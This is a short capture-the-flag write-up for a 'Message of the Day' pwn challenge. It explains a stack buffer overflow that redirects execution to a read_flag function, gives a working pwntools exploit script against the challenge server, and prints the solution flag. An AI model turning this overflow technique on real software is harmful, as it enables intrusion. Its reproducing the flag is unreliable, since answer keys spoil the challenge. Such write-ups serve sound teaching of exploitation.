[../](../../)

# MESSAGE OF THE DAY

## pwn

> From the OffHub router, you jump onto the Google-Haus smart hub. This fully feature assistant of the future that uses machine learning on the blockchain to control all our IoT devices promises it all. It delivers the ability to print a Message-of-the-day. The rest is available as a premium subscription service paid monthly.
>
> $ nc motd.ctfcompetition.com 1337
>
> [cf6c6160966eae95b4313f05ad33b9794d2817b06766a5261d952990ad27a6a6](cf6c6160966eae95b4313f05ad33b9794d2817b06766a5261d952990ad27a6a6)

The binary lets you get and set a user and admin MOTD, but you are not allowed to read the admin MOTD unless you are root. When inspecting the function, it calls a function called `read_flag`, so we just have to jump there.

Set a new user MOTD with option 2, overflow the buffer and control the `RIP` to jump to the `read_flag` function and it prints out the flag.

Exploit script:

```python
from pwn import *


e = ELF('motd')

# p = process('motd')
p = remote('motd.ctfcompetition.com', 1337)

p.recvuntil(': ')
p.sendline('2')
p.recvuntil(': ')
p.sendline('A' * 264 + p64(e.symbols['read_flag']))

print p.recvall()
```

flag: `CTF{m07d_1s_r3t_2_r34d_fl4g}`